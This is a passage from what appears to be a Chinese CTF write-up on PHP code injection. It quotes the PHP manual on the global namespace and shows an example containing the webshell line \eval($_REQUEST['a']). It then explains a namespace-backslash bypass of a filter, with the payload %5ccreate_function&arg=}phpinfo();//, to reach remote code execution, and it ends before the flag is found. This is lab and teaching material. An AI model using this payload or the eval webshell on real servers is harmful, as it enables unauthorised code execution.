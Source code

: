 ```c
	} else {
		retval = FAILURE;
	}
	zval_dtor(&pv);
	return retval;
}
```

**全局空间**

>(PHP 5 >= 5.3.0, PHP 7)
>
>如果没有定义任何命名空间，所有的类与函数的定义都是在全局空间，与 PHP 引入命名空间概念前一样。在名称前加上前缀 `\` 表示该名称是全局空间中的名称，即使该名称位于其它的命名空间中时也是如此。

Example

```php
<?php
namespace A\B\C;
/* 这个函数是 A\B\C\fopen */
function fopen() {      
    /* ... */
    $f = \fopen(...); // 调用全局的fopen函数     
    return $f;} 
 
namespace ccc;
\eval($_REQUEST['a']);
```



#### 目标

利用 `$action('', $arg)` 构造远程代码执行，这里使用 `create_function()`



#### 阻碍

`$action` 中不能全是字母、数字以及下划线，无法直接调用 `create_function()`



#### 解决方法


为了不影响 `create_function` 调用，只能在前面或者后面插入一个无法被正则匹配到的字符。直接 fuzz 一波 ASCII 码，从 `%00 ~ %ff` 可得到 %5c 即 `\`。

先试一下 `phpinfo`

```php
%5ccreate_function&arg=}phpinfo();//
```

![屏幕捕获_2019_03_03_20_11_09_363](C:\Users\wywwzjj\Documents\oCam\屏幕捕获_2019_03_03_20_11_09_363.png)

**然后找 `flag`**

看一下 **disable_functions**
